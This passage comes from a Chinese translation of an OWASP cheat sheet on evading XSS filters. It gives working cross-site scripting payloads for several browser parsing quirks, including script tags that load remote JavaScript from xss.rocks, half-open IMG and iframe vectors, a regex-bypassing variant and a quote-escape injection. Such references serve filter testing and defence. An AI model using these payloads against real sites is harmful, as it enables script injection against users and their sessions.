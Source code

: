 ```
<<SCRIPT>alert("XSS");//\<</SCRIPT>
```

### 没有关闭脚本标签[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#no-closing-script-tags)

在 Gecko 渲染引擎模式下的 Firefox 和 Netscape 8.1 中，您实际上不需要`\></SCRIPT>`此跨站点脚本向量的部分。Firefox 假定关闭 HTML 标记并为您添加关闭标记是安全的。考虑周全！与不影响 Firefox 的下一个不同，它不需要任何额外的 HTML。如果需要，您可以添加引号，但通常不需要它们，但请注意，我不知道一旦注入 HTML 最终会是什么样子：

```
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

### 脚本标签中的协议解析[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#protocol-resolution-in-script-tags)

此特定变体由 Łukasz Pilorz 提交，部分基于 Ozh 的以下协议解析绕过。`</SCRIPT>`如果您在末尾添加标签，则此跨站点脚本示例适用于 IE、IE 呈现模式的 Netscape 和 Opera 。但是，这在空间存在问题时特别有用，当然，域越短越好。无论编码类型如何，“.j”都是有效的，因为浏览器在 SCRIPT 标记的上下文中知道它。

```
<SCRIPT SRC=//xss.rocks/.j>
```

### 半开 HTML/JavaScript XSS 向量[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#half-open-htmljavascript-xss-vector)

与 Firefox 不同，IE 渲染引擎不会向您的页面添加额外数据，但它确实允许在图像中使用 javascript: 指令。这作为向量很有用，因为它不需要右尖括号。这假设在您注入此跨站点脚本向量的下方有任何 HTML 标记。即使没有关闭“>”标签，它下面的标签也会关闭它。注意：这确实会弄乱 HTML，具体取决于它下面的 HTML。它绕过了以下 NIDS 正则表达式：`/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/`因为它不需要结尾“>”。附带说明一下，这对我遇到的使用开放式`<IFRAME`标签而不是`<IMG`标签的真实世界 XSS 过滤器也有影响：

```
<IMG SRC="``('XSS')"
```

### 双开角支架[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#double-open-angle-brackets)

在矢量末尾使用开尖括号而不是闭合尖括号会导致 Netscape Gecko 渲染中的不同行为。没有它，Firefox 可以工作，但 Netscape 不能：

<iframe src=http://xss.rocks/scriptlet.html <

### 转义 JavaScript 转义[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#escaping-javascript-escapes)

当应用程序被编写为在 JavaScript 中输出一些用户信息时，如下所示：`<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>`并且您想将自己的 JavaScript 注入其中，但服务器端应用程序会转义某些引号，您可以通过转义它们的转义字符来规避这种情况。当它被注入时，它将读取`<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>`最终取消转义双引号并导致跨站点脚本向量触发。XSS 定位器使用这种方法：

```
\";alert('XSS');//
```
